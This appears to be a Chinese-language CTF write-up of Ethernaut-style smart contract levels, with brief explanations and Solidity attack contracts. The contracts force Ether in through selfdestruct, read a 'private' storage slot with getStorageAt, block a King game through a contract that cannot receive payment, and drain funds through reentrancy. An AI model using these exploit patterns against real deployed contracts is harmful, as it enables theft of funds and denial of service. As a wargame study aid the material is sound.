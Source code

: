 selfdestruct(address ), 销毁当前合约，并将销毁合约的账户余额转移到制定账户

```solidity
contract Hack{
    constructor(address payable _target) payable{
        selfdestruct(_target);
    }
}
```

## 08-vault

状态变量设置成 private 不是说就完全不能获取了，可以使用 ethers.js 等通过 storage 指定的 slot 中获取  
await web3.eth.getStorageAt(contract.address, 1)

## 09-king

使用 transfer 进行转账，如果对一个没有 receive 和 fallback 的合约进行转账，很容易转账失败，导致后面的服务不能生效，遭受 DOS 攻击

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./King.sol";

contract Hack {
    King public immutable king;

    constructor(address payable _target) payable{
        king = King(_target);
    }

    function hack() public payable{
        (bool success,) = address(king).call{value: king.prize()}("");
        require(success, "pay failed!");
    }
}
```

## 10-Re-entrancy

就是连续发两次转账请求，都可以转账给我，因为判断条件的状态变量还没来得及更新。 withdraw 一次，然后在 hack 合约的 receive 中再次 withdraw

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./IReentrance.sol";

contract Hack {
    IReentrance private re;

    function hack(address _target) public {
        re = IReentrance(_target);
        IReentrance(_target).withdraw(1000000000000000);

    }

    receive() external payable{
        re.withdraw(1000000000000000);
    }
}
```
